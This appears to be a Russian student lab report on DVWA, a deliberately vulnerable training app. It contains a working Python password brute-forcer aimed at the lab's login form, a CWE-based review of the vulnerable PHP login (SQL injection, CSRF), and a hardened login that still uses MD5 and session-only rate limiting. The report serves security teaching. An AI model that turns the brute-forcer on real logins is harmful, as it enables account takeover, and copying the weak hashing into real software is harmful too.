 # pr3
## Установка
Архив DVWA был скачан с официального ресурса github, затем установлен с использованием дистрибутива OSPanel.
![image](https://github.com/user-attachments/assets/ba34beeb-ad1e-4daf-986c-7c5c8635b7bf)
Адрес: http://dvwa.local/login.php
![image](https://github.com/user-attachments/assets/4e7ff5dd-26b2-4344-8767-ff9e571b4cad)
## Задания
1.Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local.
Было решено помочь программе установкой префикса "passwo" для того, чтобы уменьшить время подбоа пароля.
```python
import itertools
import requests
import time

# Настройки
URL = "http://dvwa.local/vulnerabilities/brute/"
USERNAME = "admin"
CHARSET = 'abcdefghijklmnopqrstuvwxyz'
PASSWORD_LENGTH = 8
PREFIX = "passwo"
SESSION = requests.Session()

# Устанавливаем cookie для авторизации
SESSION.cookies.set("PHPSESSID", "mgg4vgt0fcdtg672ead6ujaa02a5eu1h")
SESSION.cookies.set("security", "low")


def generate_passwords(prefix, length, charset):
    remaining_length = length - len(prefix)
    return (
        prefix + ''.join(comb)
        for comb in itertools.product(charset, repeat=remaining_length)
    )


def is_password_correct(url, username, password):
    params = {'username': username, 'password': password, 'Login': 'Login'}
    try:
        response = SESSION.get(url, params=params)
        return "Welcome to the password protected area" in response.text
    except requests.exceptions.RequestException as e:
        print(f"[-] Ошибка при запросе: {e}")
        return False


def main():
    start_time = time.time()
    print("[*] Начинаем подбор пароля...")

    for password in generate_passwords(PREFIX, PASSWORD_LENGTH, CHARSET):
        print(f"[*] Пробуем пароль: {password}")
        if is_password_correct(URL, USERNAME, password):
            print(f"[+] Пароль найден: {password}")
            break
    else:
        print("[-] Пароль не найден.")

    end_time = time.time()
    print(f"[+] Время выполнения: {end_time - start_time:.2f} секунд")


if __name__ == "__main__":
    main()
```
Результат работы программы:
![Uploading image.png…]()
2. Проанализировать код и сделать кодревью, указав слабые места. Слабость уязвимого кода необходимо указать с использованием метрики CWE (база данных [cwe.mitre.org](http://cwe.mitre.org))

``` PHP
<?php

if( isset( $_GET[ 'Login' ] ) ) {
	// Get username
	$user = $_GET[ 'username' ];
	// Get password
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );
	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	if( $result && mysqli_num_rows( $result ) == 1 ) {
		// Get users details
		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];
		// Login successful
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "<img src=\"{$avatar}\" />";
	}
	else {
		// Login failed
		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```
1)SQL Injection (CWE-89): В коде выполняется прямое использование переменных из входных данных ($_GET['username'] и $_GET['password']) в SQL-запросе без какой-либо защиты. Это означает, что злоумышленник может вставить вредоносный SQL-код через параметры запроса и изменить запрос так, чтобы он всегда возвращал истинный результат (например, взломав пароли или получив доступ к базе данных).

2)Код не имеет защиты от атак перебора паролей, таких как блокировка аккаунта или использование капчи после нескольких неудачных попыток входа. Это позволяет злоумышленнику бесконечно пытаться угадать пароль, например, с использованием перебора.

3)Отсутствие защиты от CSRF атак (CWE-352):Код не включает защиту от атак подделки межсайтовых запросов (CSRF). Это значит, что злоумышленник может создать фальшивую форму на другом сайте, которая будет отправлять запросы на авторизацию от имени жертвы, если она уже авторизована на данном сайте.
3.Разработать свою систему авторизации на любом языке, исключающий взможность подбора паролей разработнным переборщиком паролей в задании 1. Возможно исправление авторизации из dvwa.local *Требования к системе авторизации*

- Система авторизации должна использовать запросы GET с параметрами, аналогичными из задания bruteforce dvwa


vhod.php
  ``` PHP
  <?php

session_start();

if (!isset($_SESSION['failed_attempts'])) {
    $_SESSION['failed_attempts'] = 0;
}

if (!isset($_SESSION['last_attempt_time'])) {
    $_SESSION['last_attempt_time'] = 0;
}

// Ограничение на количество попыток
$max_attempts = 5;
$block_duration = 300; // 5 минут

if ($_SESSION['failed_attempts'] >= $max_attempts && (time() - $_SESSION['last_attempt_time']) < $block_duration) {
    $remaining_time = $block_duration - (time() - $_SESSION['last_attempt_time']);
    die("Too many failed login attempts. Please try again after " . ceil($remaining_time / 60) . " minutes.");
}

// Проверка наличия необходимых параметров
$message = "";
if (isset($_GET['Login'])) {
    if (isset($_GET['username']) && isset($_GET['password']) && isset($_GET['user_token'])) {
        // Генерация токена для предотвращения CSRF-атак
        if (!isset($_SESSION['user_token']) || empty($_SESSION['user_token'])) {
            $_SESSION['user_token'] = bin2hex(random_bytes(32));
        }

        $user = filter_input(INPUT_GET, 'username', FILTER_SANITIZE_STRING);
        $pass = filter_input(INPUT_GET, 'password', FILTER_SANITIZE_STRING);
        $user_token = filter_input(INPUT_GET, 'user_token', FILTER_SANITIZE_STRING);

        if ($user_token !== $_SESSION['user_token']) {
            $message = "Неверный токен. Перезапустите страницу и попробуйте снова";
        } else {

            $mysqli = new mysqli("localhost", "root", "", "dvwa");

            if ($mysqli->connect_error) {
                die("Database connection failed: " . $mysqli->connect_error);
            }

            // Использование подготовленных выражений для защиты от SQL-инъекций
            $stmt = $mysqli->prepare("SELECT * FROM `users` WHERE user = ? AND password = ?");
            $hashed_password = md5($pass);
            $stmt->bind_param("ss", $user, $hashed_password);
            $stmt->execute();
            $result = $stmt->get_result();

            if ($result && $result->num_rows === 1) {
                $row = $result->fetch_assoc();
                $avatar = htmlspecialchars($row["avatar"], ENT_QUOTES, 'UTF-8');
                echo "<p>Welcome to the password protected area " . htmlspecialchars($user, ENT_QUOTES, 'UTF-8') . "</p>";
                echo "<img src=\"" . $avatar . "\" />";

                $_SESSION['failed_attempts'] = 0;
                exit;
            } else {
                $_SESSION['failed_attempts']++;
                $_SESSION['last_attempt_time'] = time();
                $message = "Пользователь или пароль не верен.";
            }

            $stmt->close();
            $mysqli->close();
        }
    } else {
        $message = "Заполните все поля.";
    }
}

// Генерация нового токена при каждом обновлении страницы
if (!isset($_SESSION['user_token']) || empty($_SESSION['user_token'])) {
    $_SESSION['user_token'] = bin2hex(random_bytes(32));
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
</head>
<body>
    <form method="get">
        <input type="hidden" name="user_token" value="<?php echo $_SESSION['user_token']; ?>">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username" required>
        <br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required>
        <br>
        <button type="submit" name="Login">Login</button>
    </form>

    <?php if (!empty($message)): ?>
        <p style="color: red;"><?php echo htmlspecialchars($message, ENT_QUOTES, 'UTF-8'); ?></p>
    <?php endif; ?>
</body>
</html>
```

